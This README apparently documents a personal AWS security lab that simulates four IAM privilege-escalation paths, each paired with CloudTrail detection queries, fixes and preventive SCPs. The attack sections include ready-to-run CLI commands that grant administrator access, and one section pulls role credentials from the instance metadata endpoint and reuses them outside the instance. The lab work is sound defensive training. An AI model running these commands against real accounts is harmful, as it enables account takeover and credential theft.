








# IAM-Privilege-Escalation-Lab

> Simulating and detecting four IAM privilege escalation paths in AWS — AttachUserPolicy, CreatePolicyVersion, PassRole via EC2, and AssumeRole misconfiguration — with CloudTrail detection queries, fixes, and prevention SCPs. Built as part of a hands-on cloud security engineering roadmap.

---

## Overview

Cloud privilege escalation is not an exploit problem — it is a logic problem. No CVEs, no zero-days, no malware. An attacker with limited IAM permissions and knowledge of how AWS evaluates policies can escalate to full AdministratorAccess using nothing but legitimate AWS API calls — exploiting permissions that looked reasonable in isolation but were never evaluated for what they could be combined with.

This lab simulates four documented IAM privilege escalation paths in a controlled AWS environment, documents the exact attack commands, captures the forensic evidence in CloudTrail, and implements the fixes and prevention SCPs that close each path permanently.

**The attacker identity used throughout:** `atlas-attacker` — a low-privilege IAM user with intentionally misconfigured policies that mirror real-world administrative mistakes.

---

## IAM Policy Evaluation — The Foundation

Before understanding privilege escalation, understanding how AWS evaluates permissions is essential. IAM doesn't check one policy — it evaluates multiple layers simultaneously:

```
1. Explicit Deny anywhere        → DENY immediately. No exceptions.
2. SCP allows it?                → If no SCP allows it → DENY
3. Resource policy allows?       → May grant access independently
4. Permission Boundary allows?   → If boundary doesn't allow → DENY
5. Identity policy allows?       → If no identity policy → DENY
6. Everything passes             → ALLOW
```

Privilege escalation finds the gaps between these layers — using permissions that pass every check while achieving more than the administrator intended.

---

## Defensive Constructs

### Permission Boundaries
A permission boundary is an IAM managed policy that defines the **maximum permissions** an entity can ever have — regardless of what identity policies are attached. It does not grant permissions. It caps them.

### Service Control Policies (SCPs)
An SCP is an organisation-level policy that restricts what every identity in an AWS account can do — including the root account. SCPs are the only control in AWS that can restrict root. They don't grant permissions — they define the ceiling.

### IAM Access Analyzer
Continuously monitors resource policies and flags unintended external access, unused permissions, and known privilege escalation patterns. Policy generation capability produces least-privilege policies from CloudTrail activity automatically.

---

## Scenario 1 — AttachUserPolicy

### The Misconfiguration

An administrator wanted `atlas-attacker` to manage user permissions for a project. They granted `iam:AttachUserPolicy` on `Resource: *` — scoped to all users, without restricting which policies could be attached.

**Misconfigured policy:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "LimitedIAMAccess",
      "Effect": "Allow",
      "Action": [
        "iam:AttachUserPolicy",
        "iam:ListUsers",
        "iam:ListPolicies",
        "iam:GetUser"
      ],
      "Resource": "*"
    }
  ]
}
```

**Why it looks legitimate:** Managing user permissions is a routine administrative task. The policy appears scoped — it doesn't grant `iam:*`. The dangerous implication of `AttachUserPolicy` on `Resource: *` without policy restrictions is easy to miss.

**The dangerous permissions:**
- `iam:AttachUserPolicy` on `Resource: *` — attach any policy to any user in the account
- `iam:GetUser` — account reconnaissance, enumerate user details

### The Attack

```bash
# One command — attach AdministratorAccess to the attacker's own user
aws iam attach-user-policy \
  --user-name atlas-attacker \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess \
  --profile attacker
```

**Result:** `atlas-attacker` has full AdministratorAccess in under five seconds. No exploits. No malware. One legitimate AWS API call.



### Detection — CloudTrail Query

```
fields @timestamp, userIdentity.userName,
       eventName, requestParameters.policyArn,
       requestParameters.userName, sourceIPAddress
| filter eventName = "AttachUserPolicy"
| sort @timestamp desc
| limit 20
```

**What CloudTrail captures:**
- `userIdentity.userName` — `atlas-attacker` caught red-handed
- `requestParameters.policyArn` — `arn:aws:iam::aws:policy/AdministratorAccess`
- `requestParameters.userName` — the target user
- `sourceIPAddress` — attacker's origin IP



### Fix

**Immediate remediation:**
```bash
aws iam detach-user-policy \
  --user-name atlas-attacker \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

**Policy correction — remove AttachUserPolicy entirely:**
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "LimitedIAMAccess",
      "Effect": "Allow",
      "Action": [
        "iam:ListUsers",
        "iam:ListPolicies",
        "iam:GetUser"
      ],
      "Resource": "*"
    }
  ]
}
```

`iam:AttachUserPolicy` removed entirely. If a legitimate business case requires it, scope it with conditions that whitelist only specific non-privileged policy ARNs.

### Prevention — SCP

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Action": "iam:AttachUserPolicy",
      "Resource": "*",
      "Condition": {
        "ArnEquals": {
          "iam:PolicyARN": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
      }
    }
  ]
}
```

Attaching `AdministratorAccess` to any user is denied account-wide — including for root. Scenario 1 closed permanently.

---

## Scenario 2 — CreatePolicyVersion

### The Misconfiguration

An administrator granted `atlas-attacker` policy version management permissions for a DevOps workflow — without restricting which policies could be modified or limiting the scope of new versions.

**Misconfigured policy:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "ApplicationPolicyManagement",
      "Effect": "Allow",
      "Action": [
        "iam:CreatePolicyVersion",
        "iam:ListPolicyVersions",
        "iam:GetPolicyVersion",
        "iam:ListPolicies",
        "iam:GetPolicy"
      ],
      "Resource": "*"
    }
  ]
}
```

**Why it looks legitimate:** Policy version management is standard DevOps practice. Rolling back policy versions is a legitimate operational need. The risk of allowing version creation on `Resource: *` without content restrictions is non-obvious.

**The dangerous permission:**
- `iam:CreatePolicyVersion` on `Resource: *` — create a new version of any policy in the account, including policies attached to the attacker themselves

### The Attack

The attacker modifies a policy **already attached to themselves** — no need to touch Shepherd or any other user.

```bash
# Create a new version of the attacker's own policy
# with AdministratorAccess equivalent permissions
aws iam create-policy-version \
  --policy-arn arn:aws:iam::ACCOUNT_ID:policy/atlas-attacker-scenario2 \
  --policy-document '{
    "Version": "2012-10-17",
    "Statement": [
      {
        "Effect": "Allow",
        "Action": "*",
        "Resource": "*"
      }
    ]
  }' \
  --set-as-default \
  --profile attacker
```

**Result:** The existing policy attached to `atlas-attacker` now grants `Action: * Resource: *`. Full admin access achieved through a policy version swap — no new policy attachments, no new users.

**Key insight:** AWS retains up to 5 policy versions simultaneously. The original version is preserved as forensic evidence — an attacker may attempt to delete it to cover their tracks, generating an additional CloudTrail event.



### Detection — CloudTrail Query

```
fields @timestamp, userIdentity.userName,
       eventName, requestParameters.policyArn,
       requestParameters.policyDocument,
       requestParameters.setAsDefault,
       responseElements.policyVersion.versionId
| filter eventName = "CreatePolicyVersion"
| sort @timestamp desc
| limit 20
```

**What CloudTrail captures:**
- `requestParameters.policyDocument` — the full malicious `Action: * Resource: *` in plain text
- `requestParameters.setAsDefault` — `1` confirms immediate activation
- `versionId` — `v2` confirms this was a modification
- Complete self-incriminating evidence — no additional investigation required



### Fix

**Immediate remediation — revert to the original version:**
```bash
aws iam set-default-policy-version \
  --policy-arn arn:aws:iam::ACCOUNT_ID:policy/atlas-attacker-scenario2 \
  --version-id v1

aws iam delete-policy-version \
  --policy-arn arn:aws:iam::ACCOUNT_ID:policy/atlas-attacker-scenario2 \
  --version-id v2
```

**Policy correction:** Remove `iam:CreatePolicyVersion` entirely. There is no safe scoping for this permission — even restricted to specific policy ARNs, an attacker can overwrite those policies. It should exist only on highly trusted admin roles with MFA enforcement.

### Prevention — SCP

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Action": "iam:CreatePolicyVersion",
      "Resource": "*",
      "Condition": {
        "StringNotEquals": {
          "aws:PrincipalArn": "arn:aws:iam::ACCOUNT_ID:user/Shepherd"
        }
      }
    }
  ]
}
```

Only Shepherd can create policy versions. Every other identity in the account — including root — is denied. Scenario 2 closed permanently.

---

## Scenario 3 — PassRole via EC2

### The Misconfiguration

An administrator granted `atlas-attacker` EC2 deployment permissions including `iam:PassRole` on `Resource: *` — intending to allow instance deployment with appropriate roles, without restricting which roles could be passed.

**Misconfigured policy:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "EC2DeploymentAccess",
      "Effect": "Allow",
      "Action": [
        "ec2:RunInstances",
        "ec2:DescribeInstances",
        "ec2:DescribeInstanceStatus",
        "ec2:DescribeSubnets",
        "ec2:DescribeSecurityGroups",
        "ec2:DescribeImages",
        "ec2:CreateTags",
        "iam:PassRole",
        "iam:CreateInstanceProfile",
        "iam:AddRoleToInstanceProfile",
        "iam:GetInstanceProfile",
        "ssm:StartSession",
        "ssm:DescribeSessions",
        "ssm:TerminateSession",
        "ssm:DescribeInstanceInformation",
        "ssm:GetParameters"
      ],
      "Resource": "*"
    }
  ]
}
```

**Why it looks legitimate:** Developers legitimately need to deploy EC2 instances with roles attached. `iam:PassRole` is a standard requirement for instance deployment. The risk is entirely in the missing resource restriction on PassRole.

**The dangerous permission:**
- `iam:PassRole` on `Resource: *` — pass any role in the account to an EC2 instance, including admin roles

### The Attack

The attacker never touches IAM directly. EC2 is the pivot.

```
Step 1 — Create instance profile for the admin role
Step 2 — Launch EC2 instance with admin role attached via PassRole
Step 3 — Connect via SSM Session Manager
Step 4 — Retrieve admin credentials from IMDS
Step 5 — Use credentials outside the instance for full admin access
```

```bash
# Step 1 — Create instance profile
aws iam create-instance-profile \
  --instance-profile-name atlas-admin-ec2-profile \
  --profile attacker

aws iam add-role-to-instance-profile \
  --instance-profile-name atlas-admin-ec2-profile \
  --role-name atlas-admin-ec2-role \
  --profile attacker

# Step 2 — Launch pivot instance with admin role
aws ec2 run-instances \
  --image-id resolve:ssm:/aws/service/ami-amazon-linux-latest/al2023-ami-kernel-default-x86_64 \
  --instance-type t2.micro \
  --subnet-id SUBNET_ID \
  --security-group-ids SG_ID \
  --associate-public-ip-address \
  --iam-instance-profile Name=atlas-admin-ec2-profile \
  --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=attacker-pivot-instance}]' \
  --metadata-options HttpTokens=optional,HttpEndpoint=enabled \
  --profile attacker

# Step 3 — Connect via SSM
aws ssm start-session \
  --target INSTANCE_ID \
  --profile attacker

# Step 4 — Retrieve credentials from IMDS (inside the instance)
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/atlas-admin-ec2-role

# Step 5 — Configure stolen credentials outside the instance
aws configure --profile stolen
aws configure set aws_session_token TOKEN --profile stolen
aws sts get-caller-identity --profile stolen
```

**Result:** `atlas-attacker` is now operating as `atlas-admin-ec2-role` with full AdministratorAccess — without a single IAM write operation.



### Critical Forensic Blind Spot

**The IMDS credential retrieval is invisible to CloudTrail.**

The `curl` call to `169.254.169.254` happens over a local link-local address inside the EC2 instance — it never reaches the AWS API surface and is never logged. CloudTrail cannot directly observe credential theft from IMDS.

```
VISIBLE in CloudTrail:
✅ RunInstances — attacker launches pivot instance
✅ PassRole — admin role attached to instance
✅ StartSession — attacker connects via SSM
✅ GetCallerIdentity — stolen credentials used externally
✅ Any admin actions taken with stolen credentials

INVISIBLE in CloudTrail:
❌ IMDS credential retrieval — local link-local, never logged
```

The gap between `StartSession` and `GetCallerIdentity` is where the theft occurred — CloudTrail can infer it but cannot directly observe it. This is why IMDSv2 enforcement and PassRole restrictions are both required as compensating controls.

### Detection — CloudTrail Queries

**Detect the PassRole event — the original sin:**
```
fields @timestamp, userIdentity.userName,
       eventName, requestParameters.iamInstanceProfile,
       requestParameters.instancesSet, sourceIPAddress
| filter eventName = "RunInstances"
| sort @timestamp desc
| limit 20
```

**Detect stolen credential usage outside the instance:**
```
fields @timestamp, userIdentity.arn,
       eventName, requestParameters,
       sourceIPAddress
| filter userIdentity.arn like "atlas-admin-ec2-role"
| sort @timestamp desc
| limit 20
```



### Fix

**Immediate remediation — revoke active sessions:**
```bash
aws iam put-role-policy \
  --role-name atlas-admin-ec2-role \
  --policy-name RevokeAllSessions \
  --policy-document '{
    "Version": "2012-10-17",
    "Statement": [{
      "Effect": "Deny",
      "Action": "*",
      "Resource": "*",
      "Condition": {
        "DateLessThan": {
          "aws:TokenIssueTime": "CURRENT_TIMESTAMP"
        }
      }
    }]
  }'
```

**Policy correction — restrict PassRole to specific roles:**
```json
{
  "Sid": "RestrictedPassRole",
  "Effect": "Allow",
  "Action": "iam:PassRole",
  "Resource": "arn:aws:iam::ACCOUNT_ID:role/atlas-limited-ec2-role"
}
```

`iam:PassRole` scoped to a specific low-privilege role only. Admin roles are completely out of reach.

### Prevention — SCP

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Action": "iam:PassRole",
      "Resource": "arn:aws:iam::*:role/*Admin*",
      "Condition": {
        "StringNotEquals": {
          "aws:PrincipalArn": "arn:aws:iam::ACCOUNT_ID:user/Shepherd"
        }
      }
    }
  ]
}
```

Any role with "Admin" in the name cannot be passed by anyone except Shepherd. Scenario 3 closed permanently.

---

## Scenario 4 — AssumeRole Misconfiguration

### The Misconfiguration

An administrator created a break-glass admin role for emergencies and set the trust policy principal to `arn:aws:iam::ACCOUNT_ID:root` — believing this restricted assumption to the root user. It does not. The `:root` principal means the entire AWS account — every IAM identity within it with `sts:AssumeRole` permission can assume the role.

**Misconfigured trust policy:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::ACCOUNT_ID:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

**Why it looks legitimate:** The administrator intended to restrict the role to root only. The `:root` naming convention is genuinely misleading — AWS documentation describes it as the account principal, not the root user specifically. This misconfiguration is extremely common in production environments.

**The critical distinction:**

| Principal | Who can assume it |
|---|---|
| `arn:aws:iam::ACCOUNT_ID:root` | Every IAM identity in the account with sts:AssumeRole |
| `arn:aws:iam::ACCOUNT_ID:user/Shepherd` | Only the Shepherd IAM user specifically |
| `arn:aws:iam::ACCOUNT_ID:role/SecurityAdminRole` | Only entities that have assumed that specific role |

### The Attack

Zero IAM modifications. Zero EC2 instances. One command.

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::ACCOUNT_ID:role/atlas-breakglass-admin \
  --role-session-name attacker-session \
  --profile attacker
```

**Result:** Full AdministratorAccess credentials delivered immediately. The entire account is compromised in under one second.

```json
{
  "UserId": "AROASU63Z2LFZUUYLHPQP:attacker-session",
  "Account": "ACCOUNT_ID",
  "Arn": "arn:aws:sts::ACCOUNT_ID:assumed-role/atlas-breakglass-admin/attacker-session"
}
```



### Role Chaining — The Advanced Technique

Once inside `atlas-breakglass-admin`, a sophisticated attacker uses **role chaining** — assuming additional roles from the compromised role to obscure the escalation path:

```
atlas-attacker assumes atlas-breakglass-admin
atlas-breakglass-admin assumes another admin role
That role assumes yet another role
Each hop recorded separately in CloudTrail
Connecting the chain requires correlating multiple events
Forensic reconstruction becomes significantly harder
```

### Detection — CloudTrail Query

```
fields @timestamp, userIdentity.userName,
       eventName, requestParameters.roleArn,
       requestParameters.roleSessionName,
       sourceIPAddress
| filter eventName = "AssumeRole"
  and requestParameters.roleArn like "atlas-breakglass-admin"
| sort @timestamp desc
| limit 20
```

**What CloudTrail captures:**
- `requestParameters.roleArn` — exact role assumed
- `requestParameters.roleSessionName` — session name chosen by attacker
- `assumedRoleUser.arn` — full ARN of assumed identity
- `sourceIPAddress` — attacker origin



### Fix

**Correct trust policy — scope to specific principal with MFA:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::ACCOUNT_ID:user/Shepherd"
      },
      "Action": "sts:AssumeRole",
      "Condition": {
        "Bool": {
          "aws:MultiFactorAuthPresent": "true"
        }
      }
    }
  ]
}
```

Two critical changes:
- Principal scoped to `Shepherd` specifically — not `:root`
- MFA condition required — even Shepherd must authenticate with MFA before assuming break-glass roles

### Prevention — SCP

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Action": "sts:AssumeRole",
      "Resource": "arn:aws:iam::*:role/*breakglass*",
      "Condition": {
        "StringNotEquals": {
          "aws:PrincipalArn": "arn:aws:iam::ACCOUNT_ID:user/Shepherd"
        },
        "BoolIfExists": {
          "aws:MultiFactorAuthPresent": "false"
        }
      }
    }
  ]
}
```

Break-glass roles can only be assumed by Shepherd with MFA — account-wide, permanently. Scenario 4 closed.

---

## Summary — All Four Escalation Paths

| Scenario | Dangerous Permission | Attack Complexity | CloudTrail Visibility | Fix |
|---|---|---|---|---|
| 1 — AttachUserPolicy | `iam:AttachUserPolicy` on `*` | Low — one command | Full — policy ARN logged | Remove permission, SCP on AdministratorAccess attachment |
| 2 — CreatePolicyVersion | `iam:CreatePolicyVersion` on `*` | Medium — policy versioning knowledge required | Full — policy document logged in plain text | Remove permission, SCP restricting to Shepherd only |
| 3 — PassRole via EC2 | `iam:PassRole` on `*` | High — multi-step, IMDS knowledge required | Partial — IMDS retrieval invisible to CloudTrail | Scope PassRole to specific roles, SCP on admin role passing |
| 4 — AssumeRole misconfiguration | Trust policy with `:root` principal | Low — one command | Full — AssumeRole event logged | Scope trust policy to specific principal + MFA condition |

---

## Key Conceptual Anchors

- Cloud privilege escalation uses legitimate AWS API calls — no CVEs, no exploits, no malware
- `arn:aws:iam::ACCOUNT_ID:root` in a trust policy means the entire account — not the root user
- IMDS credential retrieval is invisible to CloudTrail — PassRole restrictions and IMDSv2 are both required
- Permission boundaries cap individual entities — SCPs cap the entire account including root
- Role chaining allows attackers to hop through multiple roles — each AssumeRole event logged separately
- IAM Access Analyzer flags dangerous trust policies and unused permissions automatically
- CloudTrail logs every API call — the attacker's tools are also the defender's evidence

---

## AWS Services Used

- **AWS IAM** — Users, roles, policies, trust policies, permission boundaries
- **AWS STS** — AssumeRole, temporary credential issuance
- **Amazon EC2** — Pivot instance for PassRole escalation path
- **AWS Systems Manager** — SSM Session Manager for instance access
- **AWS CloudTrail** — Forensic ground truth for all API activity
- **Amazon CloudWatch Logs** — Log Insights queries for detection
- **IAM Access Analyzer** — Automated misconfiguration detection

---

## Part of the AWS Cloud Security Roadmap

This project is Week 9 of a structured 6-month AWS Cloud Security Engineering program.

| Week | Topic | Deliverable |
|---|---|---|
| 1 | Cloud Foundations, Shared Responsibility | [Cloud-Foundations-Shared-Responsibility-Model](https://github.com/Atlas-Ghostshell/Cloud-Foundations-Shared-Responsibility-Model) |
| 2 | VPC & Networking | [VPC-Networking-Fundamentals](https://github.com/Atlas-Ghostshell/VPC-Networking-Fundamentals) |
| 3 | IAM Deep Dive | [IAM-Least-Privilege-S3-Access-Control](https://github.com/Atlas-Ghostshell/IAM-Least-Privilege-S3-Access-Control) |
| 4 | Cloud Storage & S3 | [S3-Static-Website-Versioning-Data-Protection](https://github.com/Atlas-Ghostshell/S3-Static-Website-Versioning-Data-Protection) |
| 5 | EC2 Hardening & IMDSv2 | [Hardened-EC2-Web-Server](https://github.com/Atlas-Ghostshell/Hardened-EC2-Web-Server) |
| 6 | VPC Deep Dive — 3-Tier Architecture | [Secure-3-Tier-VPC-Architecture](https://github.com/Atlas-Ghostshell/Secure-3-Tier-VPC-Architecture) |
| 7 | CloudTrail, CloudWatch, Root Detection | [CloudTrail-CloudWatch-Root-Detection](https://github.com/Atlas-Ghostshell/CloudTrail-CloudWatch-Root-Detection) |
| 8 | GuardDuty, Security Hub, Inspector | [GuardDuty-SecurityHub-Inspector-ThreatDetection](https://github.com/Atlas-Ghostshell/GuardDuty-SecurityHub-Inspector-ThreatDetection) |
| **9** | **IAM Privilege Escalation Lab** | **This repository** |
| 10 | Network Security — WAF, Shield, VPC Flow Logs | Coming soon |

---

*Geoffrey Muriuki Mwangi · [GitHub: Atlas-Ghostshell](https://github.com/Atlas-Ghostshell) · [LinkedIn](https://linkedin.com/in/geoffrey-muriuki-b4ba71306)*
